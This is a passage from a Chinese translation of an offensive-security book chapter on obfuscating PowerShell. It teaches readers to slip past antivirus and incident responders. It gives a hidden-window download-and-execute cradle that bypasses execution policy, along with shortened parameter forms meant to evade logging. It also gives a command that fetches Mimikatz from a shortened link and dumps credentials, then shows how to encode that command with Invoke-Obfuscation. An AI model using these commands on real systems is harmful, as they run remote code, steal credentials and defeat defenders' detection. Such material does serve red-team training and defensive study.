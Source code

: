## PowerShell 混淆
PowerShell Scripts 当前的问题是，如果你将它们放到磁盘上，很多防病毒工具都会把它们检测出来。即使你将它们导入内存，查看内存的杀毒软件工具有时也会对它们发出警报。

无论如何，如果你从 Cobalt Strike、Meterpreter 或 PowerShell Empire 将它们导入内存，确保我们不会被杀毒软件检测出来是非常重要的。万一被检测出来的话，我们至少应该让应急响应团队或取证团队很难去逆向我们的攻击 payload。

我们都看过像这样的 PowerShell 命令：
```powershell
Powershell.exe -NoProfile -NonInteractive -WindowStyle Hidden -ExecutionPolicy Bypass IEX (New-Object Net.WebClient).DownloadString(‘[PowerShell URL]’); [Parameters]
```
 
这是我们可能看到的最基本的 powershell 调用指令的字符串组合，可以用于绕过执行策略，来以隐藏窗口的模式（后台运行无弹窗）自动下载和执行 powershell payload。对于蓝队，我们已经看到了很多关于这些特定参数的日志记录，比如 `-Exec Bypass`。因此，我们开始通过一些常见的 PowerShell 语法来混淆此参数：

* -ExecutionPolicy Bypass
    * -EP Bypass
    * -Exec Bypass
    * -Execution Bypass
    
感谢 Daniel Bohannon 的提醒！他提醒说：更疯狂的是，我们实际上不需要打出完整的参数字符串就能使它工作。例如，对于 `-ExecutionPolicy Bypass`，所有下列示例都可以生效:
* -ExecutionPolicy Bypass
* -ExecutionPol Bypass
* -Executio Bypass
* -Exec Bypass
* -Ex Bypass

这些技术也同样适用于 `WindowStyle` 甚至 `EncodedCommand` 参数。当然，这些技巧不足以支撑我们走得更远，我们还需要创建更多的混淆变换。首先，我们可以使用一个非常简单的示例来执行我们的远程 PowerShell 脚本（在本例中为 Mimikatz）并使用以管理员身份运行的 PowerShell 提示符来转储哈希值：
* Invoke-Expression (New-Object Net.WebClient).DownloadString(‘http://bit.ly/2JHVdzf’); Invoke-Mimikatz -DumpCreds
> 译者注：
> 1. `WindowStyle` 和 `EncodedCommand` 是 PowerShell.exe 的选项参数。`WindowStyle` 可以改变 CMD 窗口的风格，将窗口样式设置为 Normal、Minimized、Maximized 或 Hidden。`EncodedCommand` 是接受 base-64 编码字符串版本的命令。使用此参数向 Windows PowerShell 提交需要复杂引号或大括号的命令。欲知更多参数，可以在 Windows Powershell 里面使用 `powershell -help` 命令查看。
> 2. `Invoke-Expression` 能将任何的字符串当作PowerShell脚本来执行。以下附上关于 `Invoke-Expression` 的更多参考资料：
>    - [Invoke-Expression](https://forsenergy.com/zh-cn/windowspowershellhelp/html/04b8e90a-7d28-4ab2-ad13-b0316c231c77.htm)
>    - [Invoke-Expression 帮助信息](https://blog.csdn.net/PowerShell/article/details/1857793)


通过 `Invoke-Obfuscation` 混淆框架，我们可以使用以下几种不同的技术对这个字符串进行深度混淆：
* 在 Windows 上，下载用于 Invoke-Obfuscation 的 PowerShell 文件（ https://github.com/danielbohannon/Invoke-Obfuscation ）
* 加载 PowerShell 脚本并启动 Invoke-Obfuscation
    * Import-Module ./Invoke-Obfuscation.psd1 
    * Invoke-Obfuscation
* 设置要混淆的 PowerShell 脚本。在这个例子中，我们将混淆上面的 Mimikatz 哈希值下载转储脚本
    * SET SCRIPTBLOCK Invoke-Expression (New-Object Net.WebClient).DownloadString(‘http://bit.ly/2JHVdzf’); Invoke-Mimikatz -DumpCreds
* 对 payload 进行编码
    * ENCODING
* 在这个例子中，我选择了 SecureString（AES），但你可以把所有这些混淆技术都试一试。

